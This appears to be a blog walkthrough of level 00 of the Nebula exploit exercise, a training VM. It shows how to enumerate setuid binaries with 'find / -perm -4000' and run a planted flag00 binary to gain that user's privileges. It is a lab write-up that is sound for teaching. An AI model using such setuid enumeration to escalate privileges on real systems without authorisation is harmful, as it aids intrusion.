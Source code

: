 ```yaml
---
layout: post
title: Nebula Exploit Exercise Level 00 Walkthrough
#subtitle: 
#cover-img: /assets/img/bsides-london.jpg
#thumbnail-img: /assets/img/thumb.png
#share-img: /assets/img/path.jpg
tags: [Nebula, Walkthrough]
---
```


# Intro

So this is more of a reminder post to myself to track my progress through this thing, but I thought I might as well do a post seeing as there are already about 6 other solutions out there and the authors don't seem to mind walkthroughs too much.

That being said, this is level 00. If your getting stuck on this, you should seriously try harder before you look at the solution. If you want to check your work however and think you have the solution, feel free to read on :)

# The Problem

For Nebula's level 00 exercise, we are tasked with finding a setuid program that will run as the flag00 user. We are also given the hint that reading the manual page for the find command may help us find where this file is located.

So my first approach to this was to look up the manual page for the find command. However the manual page for the find command contains many different options and switches. Lets try grep out anything mentioning setuid or something along those lines shall we?

# Solving the Problem

First we log in with the username level00 and the password level00. Following this we then check the manual entry for the `find` command and try see if there is anything regarding SUID which might be able to help us. To do this we issue the following command:

```bash
man find | grep -i suid
```

This returns the following output:

```bash
       find / \( -perm -4000 -fprintf /root/suid.txt '%#m %u %p\n' \) , \
       Traverse the filesystem just once, listing setuid files and directories into /root/suid.txt  and  large  files
```

From the output we see that we can could run `find / -perm -4000` to find all of the files with the setuid bit set from the root directory downwards. But why is this the case? If we look up setuid within Wikipedia we get the following information:

> _The `setuid` and `setgid` bits are normally set with the command `[chmod](https://en.wikipedia.org/wiki/Chmod "Chmod")` by setting the high-order octal digit to 4 for `setuid` or 2 for `setgid`. `chmod 6711 *file*` will set both the `setuid` and `setgid` bits (2+4=6) (Wikipedia, 2015, June 12 2015, [https://en.wikipedia.org/wiki/Setuid](https://en.wikipedia.org/wiki/Setuid))_

Thus from this we can see that within the UNIX privilege management system, the first number (the 6 in `chmod 6711`) denotes if the file has setuid or setgid permissions or not. Thus by searching for files via `find / -perm -4000` we are effectively searching for all of the files which have the setuid bit set. However this could return quite a few files, so lets pipe the output to a file and then cat the result.

```bash
level00@nebula:~$ find / -perm -4000 > /tmp/results.txt
level00@nebula:~$ cat /tmp/results.txt
/bin/.../flag00
/bin/fusermount
/bin/mount
/bin/ping
/bin/ping6
/bin/su
/bin/umount
/sbin/mount.ecryptfs_private
/usr/bin/at
/usr/bin/chfn
/usr/bin/chsh
/usr/bin/gpasswd
```

Ah, there we go :) We see that there is a file `/bin/.../flag00` which seems to hold the suid flag that we need to complete this level. Lets check this out:

```bash
level00@nebula:~$ ls -alh /bin/.../flag00
 -rwsr-x--- 1 flag00 level00 7.2K 2011-11-20 21:22 /bin/.../flag00
```

That looks like the one :) And if we execute it and then run `getflag`, we will see we have completed the challenge:

```bash
level00@nebula:~$ /bin/.../flag00
Congrats, now run getflag to get your flag!
flag00@nebula:~$ getflag
You have successfully executed getflag on a target account
```
